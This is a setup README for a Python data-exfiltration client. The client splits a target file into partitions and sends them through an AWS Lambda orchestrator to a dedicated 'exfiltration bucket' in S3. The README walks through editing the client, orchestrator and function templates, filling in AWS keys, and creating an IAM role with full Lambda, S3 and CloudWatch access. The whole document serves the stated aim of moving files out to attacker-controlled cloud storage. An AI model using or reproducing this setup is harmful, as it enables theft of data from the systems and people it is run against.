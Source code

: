 # standaloneClient
## Usage
`py clientName.py "Path_to_file"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

*Line 11*  Modify partition size  
`partitionSize = 100 #Change for desired partition size`  
*Line 42*  Modify Orchestrator function name (Remember it)  
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', Payload = orqPayload_json)`  
*Line 85* Modify with AWS Keys  
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
*Line 6*  Modify with the exfiltration bucket name  
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`  

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

*Line 26*  Modify IAM Role ARN  
`Role = '<LAMBDA_S3_IAM_ROLE>'`  
*Line 29*  Modify Template Bucket Name  
`'S3Bucket': '<TEMPLATES_BUCKET>'`  
*Line 30* Modify Compressed function name  
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`  

Increase the timeout of this function to 1 minute and memory to 512MB  
